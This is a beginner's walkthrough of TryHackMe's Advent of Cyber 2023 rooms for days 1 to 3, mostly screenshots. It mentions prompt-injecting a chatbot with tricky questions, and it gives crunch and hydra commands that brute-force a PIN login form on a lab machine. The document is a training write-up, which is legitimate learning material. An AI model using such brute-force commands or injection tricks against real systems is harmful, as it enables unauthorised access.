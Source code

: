 # [Advent of Cyber 5 [2023]](https://tryhackme.com/room/adventofcyber2023)

> Get started with Cyber Security in 24 Days - Learn the basics by doing a new, beginner friendly security challenge every day leading up to Christmas.

## Day 1: Chatbot, tell me, if you're really safe?

use some tricky question to inject the prompt

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/22a1a05a-dba6-46af-bd35-240f9a448b0c)

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/eb2fb2a0-9b35-4047-ba20-2b4f07e19faf)

Answer:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8a64872c-36cd-4aef-9be4-a58119889650)

## Day 2: O Data, All Ye Faithful

start the machine, you will see a browser of jupiter notebook and the instruction on that

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/e9940e00-769a-4e55-a072-0d21f92a4efc)

click on notebook `4_Capstone` we have a datasheet network_traffic.csv and a workbook, open it

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3e3d2fd4-d920-4a3e-b060-65d69e04a5b2)

question 2

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/bc62e3e1-af24-46cc-896f-74bd11cd6758)

question 3

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ee1a1853-6439-4389-88c2-33d1d6cf00d4)

question 4

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c8c15eae-a62c-4e7e-9e8e-d10719f680b2)

if you got error 'df' not found, so click on "restart the kernel and run all cells"

Answer:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/dfff452a-234b-4fd8-9758-07c90951ef46)

## Day 3: Hydra is Coming to Town

start the machine and access it on port 8000

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/17e6c66d-fe82-4005-8a46-26364f2d4ae7)

view source code, i see it post the pin to login.php or you can catch the request with burpsuite

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/eda3942b-76ce-44ce-b0b6-bc1cbdfae732)

generate the wordlist

```
crunch 3 3 0123456789ABCDEF -o 3digits.txt
```

crack the pass with hydra

```
hydra -l '' -P 3digits.txt -f 10.10.125.189 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/a9fcf49c-e97b-44a0-966c-12cb80f6ba6b)

enter the pin

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/1dffafc4-68b0-47bc-ac3a-b7653f281989)

here you go

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/07b31e88-e14b-4709-b689-7eab2adc7417)

Answer:

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f77ccd4b-f02f-4711-873b-95e79c952e06)

## Day 4: Baby, it's CeWLd outside























































